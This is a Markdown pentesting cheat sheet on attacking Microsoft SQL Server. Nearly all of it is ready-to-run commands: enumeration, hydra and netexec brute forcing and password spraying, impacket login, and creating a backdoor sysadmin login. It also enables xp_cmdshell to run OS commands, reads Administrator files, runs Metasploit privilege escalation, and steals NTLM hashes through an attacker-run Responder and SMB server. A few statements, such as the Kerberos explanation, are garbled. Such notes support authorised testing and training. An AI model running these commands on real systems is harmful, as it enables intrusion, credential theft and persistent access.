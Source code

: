 ```yaml
---
title: MSSQL (Microsoft SQL) Pentesting
description: MSSQL is a relational database management system. A default port is 1433.
tags:
    - Database
    - Windows
refs:
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
    - https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16
date: 2024-04-01
draft: false
---
```


## Enumeration

```sh
nmap --script ms-sql-info -p 1433 <target-ip>
nmap --script ms-sql-config -p 1433 <target-ip>
nmap --script ms-sql-empty-password,ms-sql-xp-cmdshell -p 1433 <target-ip>
nmap --script ms-sql-* -p 1433 <target-ip>

# MSDAT: https://github.com/quentinhardy/msdat
# all: Enumerate with all modules
python3 msdat.py all -s example.com
# -D, -U, -P: Use Windows authentication
python3 msdat.py all -s example.com -D domain -U username -P password
# xpdirectory: List directories in system
python3 msdat.py xpdirectory -s manager.htb -D manager -U operator -P operator -d master --list-files 'C:\'
# bulkopen: Read/download files
python3 msdat.py bulkopen -s example.com -D domain -U username -P password -d database --read-file 'C:\Users\Administrator\Desktop\example.txt'

# Metasploit
msfconsole
msf> use admin/mssql/mssql_enum
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
```

### Brute Force Credentials

```sh
netexec mssql <target-ip> -u username -p passwords.txt

hydra -L usernames.txt –p password <target-ip> mssql
hydra -l username –P passwords.txt <target-ip> mssql
```

<br />

## Password Spraying Attack

If we found the specific user password, we might be able to find another user with the same password.

```bash
netexec mssql example.com -u usernames.txt -p 'password' --no-bruteforce --continue-on-success
```

<br />

## Connect

```sh
# impacket
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip>
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip> -windows-auth

# sqsh
sqsh -S <target-ip> -U username -P password
sqsh -S <target-ip> -U username -P password -D database
```

<br />

## Commands

```powershell
# Get the version of MSSQL
> SELECT @@version

# Get current username
> SELECT user_name()

# Get all users
> SELECT * FROM sys.database_principals

# Get databases
> SELECT * FROM master.dbo.sysdatabases

# Switch to the database
> USE <database>

# List tables
> SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>


# Check if the current user have permission to execute OS command
> USE master
> EXEC sp_helprotect 'xp_cmdshell'

# Get linked servers
> EXEC sp_linkedservers
> SELECT * FROM sys.servers

# Create a new user with sysadmin privilege
> CREATE LOGIN tester WITH PASSWORD = 'password'
> EXEC sp_addsrvrolemember 'tester', 'sysadmin'

# List directories
> xp_dirtree '.\'
> xp_dirtree 'C:\inetpub\'
> xp_dirtree 'C:\inetpub\wwwroot\'
> xp_dirtree 'C:\Users\'
```

<br />

## Spawn a Windows Command Shell and Run Commands using Impacket

If we connected MSSQL using **impacket**, we can exeucte the Windows Shell Commands by **"enable_xp_cmdshell"**.

### Enable/Disable a Windows Shell

```powershell
> enable_xp_cmdshell
> disable_xp_cmdshell

# or

# Enable advanced options
> EXEC sp_configure 'show advanced options', 1;
# Update the currently configured value for the advanced options
> RECONFIGURE;

# Enable the command shell
> EXEC sp_configure 'xp_cmdshell', 1;
# Update the currently configured value for the command shell
> RECONFIGURE;
```

### Commands

We can execute commands the same as Windows Command Prompt.

```powershell
# Get current user
> xp_cmdshell whoami

# Show files and directories
> xp_cmdshell dir
> xp_cmdshell dir \Users
# Show hidden files
> xp_cmdshell dir /a

# Get current directory
> xp_cmdshell cd

# Get contents of file
> xp_cmdshell more \Users\Administrator\example.txt
> xp_cmdshell type \Users\Administrator\example.txt
```

<br />

## Privilege Escalation

```bash
msfconsole
msf> use exploit/windows/mssql/mssql_linkcrawler
```

<br />

## Get NTLM Hash

MSSQL uses **Keberos** to authenticate users so we can retrieve the NTLM hash.

### 1. Start SMB Server and Responder

First we need to start a SMB server and Responder in each terminal.

```bash
# In terminal 1
sudo responder -I <interface>

# In terminal 2
sudo impacket-smbserver share ./ -smb2support

# In terminal 3
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

### 2. Execute with Metasploit

In msfconsole, select the following module.  
We need to set the `SMBPROXY` option to the Responder IP (this ip is displayed when starting Responder in terminal).

```bash
msfconsole
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
msf> set rhosts <target_ip>
msf> set username <username>
msf> set password <password>
# If we use Windows credential, set as below:
msf> set use_windows_authent true
msf> set smbproxy <responder_ip>
msf> run
```

When executing, we can see the NTLM hash in the terminal where SMB server is running.